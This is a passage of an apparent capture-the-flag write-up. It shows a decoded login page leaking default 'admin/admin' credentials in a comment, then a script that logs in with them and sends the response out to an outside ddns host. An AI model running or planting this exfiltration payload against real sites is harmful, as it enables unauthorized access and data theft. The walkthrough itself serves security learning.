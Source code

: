 The response (login page) after decoding is as follows.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login page</title>
</head>
<body>
    <form method="post">
        <div class="form-group">
            <label for="url" class="col-sm-3 control-label">Username</label>
            <div class="col-sm-9">
                <input type="text" id="url" name='username' placeholder="Username">
            </div>
        </div>

        <div class="form-group">
            <label for="password" class="col-sm-3 control-label">Password</label>
            <div class="col-sm-9">
                <input type="password" id="password" name='password' placeholder="Password">
            </div>
        </div>

        <div class="form-group">
            <div class="col-sm-9 col-sm-offset-3">
                <!--Default credentials: admin/admin-->
                <button type="submit" name='submit' class="btn btn-primary btn-block">Login!</button>
            </div>
        </div>
    </center>
    <div class="form-group">



                </div>
            </form> <!-- /form -->
        </div> <!-- ./container -->
</body>
</html>
```

You can see that it's a simple login form. What's interesting is the default credentials (`admin:admin`) hidden in the HTML comment.

Let's repeat the steps again, making the following changes to `index.html`, to simulate logging in.

<div class="filename"><span>index.html</span></div>

```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "http://h4ck3rman.ddns.net:8080/login");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://h4ck3rboi.ddns.net:8888/hello.txt?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send("username=admin&password=admin&submit=");
}, 120000);
</script>
```